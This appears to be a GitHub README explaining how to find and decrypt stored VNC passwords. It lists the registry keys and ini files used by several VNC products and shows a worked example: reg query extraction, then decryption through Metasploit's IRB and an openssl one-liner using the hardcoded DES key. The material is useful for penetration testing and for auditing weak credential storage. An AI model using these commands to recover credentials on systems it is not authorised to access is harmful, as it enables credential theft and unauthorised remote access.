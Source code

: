 # PasswordDecrypts
Handy Stored Password Decryption Techniques

## VNC

VNC uses a hardcoded DES key to store credentials.  The same key is used across multiple product lines.

*RealVNC*  
HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\vncserver  
Value: Password  
 
*TightVNC*  
HKEY_CURRENT_USER\Software\TightVNC\Server  
HKLM\SOFTWARE\TightVNC\Server\ControlPassword

tightvnc.ini  
vnc_viewer.ini  
Value: Password or PasswordViewOnly  
  
*TigerVNC*  
HKEY_LOCAL_USER\Software\TigerVNC\WinVNC4  
Value: Password  
  
*UltraVNC*  
C:\Program Files\UltraVNC\ultravnc.ini  
Value: passwd or passwd2  

### Test Case
I downloaded TightVNC version 2.8.11 and found my password was stored here: HKLM\SOFTWARE\TightVNC\Server\ControlPassword so I used reg query to extract the encrypted password:
  
```
Microsoft Windows [Version 10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>reg query HKLM\SOFTWARE\TightVNC\Server /s

HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server
--- SNIP ---
    Password    REG_BINARY    D7A514D8C556AADE
    ControlPassword    REG_BINARY    1B8167BC0099C7DC
--- SNIP ---

```
With the encypted VNC password: 
D7A514D8C556AADE  

#### Metasploit Framework and the IRB (ruby shell)
I was able decrypt it easily using the Metasploit Framework and the IRB (ruby shell) with these 3 commands:  
fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"   
require 'rex/proto/rfb'  
Rex::Proto::RFB::Cipher.decrypt ["YOUR ENCRYPTED VNC PASSWORD HERE"].pack('H*'), fixedkey   
  
```BASH
$> msfconsole

msf5 > irb
[*] Starting IRB shell...
[*] You are in the "framework" object

>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
 => "\u0017Rk\u0006#NX\a"
>> require 'rex/proto/rfb'
 => true
>> Rex::Proto::RFB::Cipher.decrypt ["D7A514D8C556AADE"].pack('H*'), fixedkey
 => "Secure!\x00"
>> 
```

#### Native Linux Tools
From https://github.com/billchaison/VNCDecrypt via https://miloserdov.org/?p=4854#65
```BASH
echo -n d7a514d8c556aade | xxd -r -p | openssl enc -provider legacy -provider default -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv
```
Outputs
```BASH
00000000  53 65 63 75 72 65 21 00                           |Secure!.|
00000008
```

